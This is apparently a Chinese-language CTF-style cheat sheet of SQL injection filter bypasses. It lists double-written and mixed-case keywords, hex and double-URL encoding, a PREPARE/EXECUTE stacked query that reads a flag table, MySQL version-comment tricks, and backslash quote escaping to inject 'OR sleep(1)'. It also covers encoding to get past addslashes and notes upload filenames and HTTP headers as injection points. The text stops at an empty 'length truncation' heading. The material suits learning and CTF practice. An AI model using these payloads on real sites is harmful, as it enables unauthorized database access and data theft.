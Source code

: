 ### 将关键词替换为空

双写关键词`selselectect`

### 大小写绕过

selEct -- oR

### 十六进制绕过

select -- selec\x74

### 双重url编码绕过

or ---  %25%36%66%25%37%32

### 正则匹配select

```
set @sql=concat('s','elect `flag` from `1919810931114514`');PREPARE stmt1 FROM @sql;EXECUTE stmt1;#
```

或者

```
/*!50000select*/
```

### 过滤引号

可以用`\`使引号逃逸

如果有

```php
$sql = "SELECT * FROM wp_news WHERE id = 'a' AND title = 'haha'"
```

可以构造

```php
$sql = "SELECT * FROM wp_news WHERE id = 'a\' AND title = 'OR sleep(1)'"
```

后面的title处的语句就可以逃逸，成功执行

### addslashes

这个函数开启会转义特殊字符

可以通过编码绕过，比如base64,urldecode进行转移，这个时候参数处于编码状态，无法被转义

### 一些可控点

- 上传文件的文件名
- http header

### 长度截断
